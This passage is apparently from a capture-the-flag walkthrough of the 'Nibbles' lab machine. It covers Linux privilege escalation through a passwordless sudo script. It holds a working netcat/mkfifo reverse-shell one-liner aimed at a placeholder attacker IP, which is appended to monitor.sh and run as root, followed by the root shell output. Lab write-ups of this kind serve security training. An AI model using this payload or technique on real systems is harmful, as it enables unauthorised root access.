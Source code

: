     ```bash
    sudo python3 -m http.server 8080
    ```
4.  **Check Sudo Privileges:**

    * LinEnum.sh reveals that the `nibbler` user can run `monitor.sh` with sudo without a password.

    ```bash
    User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
    ```
5.  **Modify the Script:**

    * Append a reverse shell payload to the `monitor.sh` script.

    {% code title="monitor" overflow="wrap" %}
    ```bash
    echo 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKING IP> <LISTENING PORT> >/tmp/f' | tee -a /home/nibbler/personal/stuff/monitor.sh
    ```
    {% endcode %}

    * Replace `<ATTACKING IP>` and `<LISTENING PORT>` with your attack machine’s IP address and chosen port.
6.  **Start Netcat Listener:**

    * Start a netcat listener on your attack machine to catch the reverse shell.

    ```bash
    nc -lvnp <LISTENING PORT>
    ```
7.  **Execute the Script with Sudo:**

    * Run the `monitor.sh` script with sudo to escalate privileges.

    ```bash
    sudo /home/nibbler/personal/stuff/monitor.sh
    ```
8.  **Catch the Reverse Shell:**

    * Check your netcat listener for a connection and confirm root access.

    ```bash
    listening on [any] 8443 ...
    connect to [10.129.42.190] from (UNKNOWN) [10.129.42.190] 47488
    # id
    uid=0(root) gid=0(root) groups=0(root)
    ```
9.  **Grab the Root Flag:**

    * Navigate to the root directory and read the `root.txt` flag.

    ```bash
    cat /root/root.txt
    ```
